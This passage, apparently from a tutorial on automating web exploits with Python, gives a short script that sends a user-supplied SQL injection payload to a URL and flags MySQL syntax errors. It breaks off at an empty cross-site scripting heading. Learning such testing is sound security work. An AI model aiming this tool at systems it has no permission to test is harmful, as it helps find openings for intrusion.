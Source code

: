 #### Automating web exploits with Python
---


Python provides powerful libraries for web scraping, HTTP requests, and HTML parsing, making it an excellent choice for automating web application exploits. Two commonly used libraries are `requests` for making HTTP requests and `BeautifulSoup` for parsing HTML. Here are some examples of how Python can be used to automate web exploits:

##### SQL INJECTION

```python
import requests
from pyfiglet import figlet_format
import argparse


# Setting up the sql injection function
def sql_injection(url, payload):
    response = requests.get(f'{url}?id={payload}')
    if "error in your SQL syntax" in response.text:
        print(f'[+] Potential SQL injection vulnerability found')
        return response.text


def main():
    # Setting ASCII art
    ascii_art = figlet_format('SQLI test', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple SQLI tester for urls')

    parser.add_argument('-u', '--url', type=str, required=True, help='The target url to test SQLI')

    parser.add_argument('-p', '--payload', type=str, required=True, help='Payload to send')

    args = parser.parse_args()

    # Calling the sending exploit function

    sql_injection(url=args.url, payload=args.payload)


if __name__ == '__main__':
    main()

```

This script sends a request to a potentially vulnerable URL with a SQL injection payload. It then checks the response for signs of a successful injection

##### Cross-Site Scripting (XSS)
